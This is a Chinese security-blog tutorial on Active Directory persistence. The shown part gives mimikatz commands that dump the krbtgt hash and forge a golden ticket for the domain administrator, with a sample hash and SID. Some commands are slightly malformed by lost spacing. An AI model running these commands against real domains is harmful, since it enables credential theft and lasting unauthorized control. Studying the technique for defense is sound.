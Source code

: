 ##  内网渗透｜域内持久化与Windows日志删除

原创 11ccaab  [ HACK学习呀 ](javascript:void\(0\);)

**HACK学习呀** ![]()

微信号 Hacker1961X

功能介绍
HACK学习，专注于互联网安全与黑客精神；渗透测试，社会工程学，Python黑客编程，资源分享，Web渗透培训，电脑技巧，渗透技巧等，为广大网络安全爱好者一个交流分享学习的平台！

____

__

收录于话题

#windows 2

#内网渗透 19

#权限维持 4

# 0x01 金票

可以使用krbtgt的NTLM hash创建作为任何用户的有效TGT。要伪造黄金票据的前提是知道域的SID和krbtgt账户的hash或者AES-256值。

## 1.1 收集krbtgt密码信息

    
    
    privilege::debuglsadump::lsa /inject /name:krbtgt

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210814114522.png)

得到krbtgt的hash：

    
    
    c73caed3bc6f0a248e51d37b9a8675fa

域sid值：

    
    
    S-1-5-21-151877218-3666268517-4145415712

## 1.2 金票利用

使用mimikatz伪造kerberos票证

 **生成gold.kribi**

    
    
     mimikatz "kerberos::golden /domain:redteam.local /sid:S-1-5-21-151877218-3666268517-4145415712/krbtgt:c73caed3bc6f0a248e51d37b9a8675fa /user:administrator/ticket:gold.kirbi"

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210814114531.png)
